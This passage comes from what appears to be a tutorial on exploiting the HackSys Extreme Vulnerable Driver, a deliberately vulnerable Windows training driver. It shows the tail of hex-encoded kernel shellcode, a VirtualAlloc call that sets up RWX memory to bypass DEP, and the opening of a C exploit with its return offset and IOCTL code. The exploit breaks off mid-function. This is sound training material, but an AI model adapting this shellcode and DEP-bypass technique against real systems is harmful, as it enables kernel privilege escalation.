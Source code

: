         "\x89\x91\xf8\x00\x00\x00"        // mov [ecx+0xf8],edx
        "\x61"                            // popad
        "\x31\xc0"                        // xor eax,eax
        "\x5d"                            // pop ebp
        "\xc2\x08\x00";                   // ret 0x8
{% endhighlight %}


To evade DEP we will create a memory region RWX permissions with VirtualAlloc() and we will put our shellcode there:

{% highlight c linenos %}
    LPVOID userBuffer = VirtualAlloc(0,
                                  sizeof(shellcode),
                                  MEM_COMMIT | MEM_RESERVE,
                                  PAGE_EXECUTE_READWRITE);
    if (!userBuffer) {
        printf("Error allocating the user buffer\n");
        exit(1);
    }

    printf("[*] userBuffer @ %p\n", userBuffer);

    memcpy(userBuffer, shellcode, sizeof(shellcode));
{% endhighlight %}



### Launching the exploit

So our final exploit looks like this:

{% highlight c linenos %}
#include <windows.h>
#include <winioctl.h>
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>


#define SHELLCODE_LEN   57
#define RET_OFFSET      2080
#define DRIVER_PATH     "\\\\.\\HackSysExtremeVulnerableDriver"
#define STACK_IOCTL     0x222003

void exploit(void) {

    typedef void* HANDLE;
    HANDLE driverHandle;


    printf("[*] Opening handle to \\\\.\\HackSysExtremeVulnerableDriver\n");

    /*
        HANDLE WINAPI CreateFile(
          _In_     LPCTSTR               lpFileName,
          _In_     DWORD                 dwDesiredAccess,
          _In_     DWORD                 dwShareMode,
          _In_opt_ LPSECURITY_ATTRIBUTES lpSecurityAttributes,
          _In_     DWORD                 dwCreationDisposition,
          _In_     DWORD                 dwFlagsAndAttributes,
          _In_opt_ HANDLE                hTemplateFile
        );
    */
    driverHandle = CreateFileA(
        DRIVER_PATH,
        GENERIC_READ | GENERIC_WRITE,
        0,
        NULL,
        OPEN_EXISTING,